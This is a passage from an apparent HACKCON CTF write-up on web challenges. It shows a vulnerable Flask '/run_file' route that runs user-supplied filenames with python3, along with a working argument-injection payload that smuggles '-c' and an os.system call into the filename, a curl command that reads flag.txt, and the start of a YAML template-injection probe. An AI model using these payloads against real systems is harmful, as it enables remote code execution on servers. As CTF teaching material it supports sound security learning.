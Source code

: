 --------------

### HACKCON CTF 

----------------

![image](https://github.com/user-attachments/assets/2a3fdfd1-c616-4f65-9554-b4e9018fe752)

----------------

### Challenges-:

----------------

- Web-:
  - Processed Subscription
  - Flask ain't no markup language
  - Zeezy's notes

------------------

### Web

------------------

### Processed Subscription

------------------

![image](https://github.com/user-attachments/assets/edee15aa-4195-4a00-aa61-bb9f8c605ead)

------------------

- Source code analysis, code-:

```python
@app.route('/run_file', methods=['GET'])
def run_code():
    filename = request.args.get("code")
    if filename.endswith(".py"):
       response = subprocess.Popen(["python3",filename],stdout=-1).communicate()
       response =  response[0].decode()
       print(response)
    else:
        response = "Invalid file type"
    return jsonify({'result': response})
```
- The route `run_file` is vulnerable to argument injection.An attacker can control the filename variable and trigger `argument injection` to Remote Code Exection on the server.
- Testing it on a python interpreter before triggering it on the server.

![image](https://github.com/user-attachments/assets/104066ba-c520-4d52-aa79-4a9613c00ccc)

- Normally, Python should only execute a file in this state and should not be vulnerable to `argument injection`.
- Explaining the payload-:

```python3
-c\neval(\"__import__('os').system('id')\")
```

- The `-c` switch triggers the python interpreter, then we use `\n` to slip to the next line.Then, in the next line, we activate our payload.If we try it with the python interpreter, it'll be something like this.

![image](https://github.com/user-attachments/assets/f3f2a683-94ad-4c3e-9a4d-84e2480f27a4)

- Final Payload-:
```
-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py
```

- Flag-: ```gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}```

```zsh
curl -G https://chall1.pxxl.xyz/run_file -d "code=-c%0aeval(\"__import__(\'os\').system('cat%20flag.txt')\")%23.py"
{"result":"gdscCTF{l0l_tw34k1ng_withSubpr0c3ss}\n"}
```

----------------

### Flask ain't no Markup Language

---------------

<img width="496" height="747" alt="image" src="https://github.com/user-attachments/assets/5fa6bf38-41f2-42f1-9866-0447c27c6504" />

---------------

- Vulnerability is Flask Server Side Template Injection in `yaml`.While executing it, our payload will be place in yaml syntax e.g

```yaml
x: "{{7*7}}"
```

- 
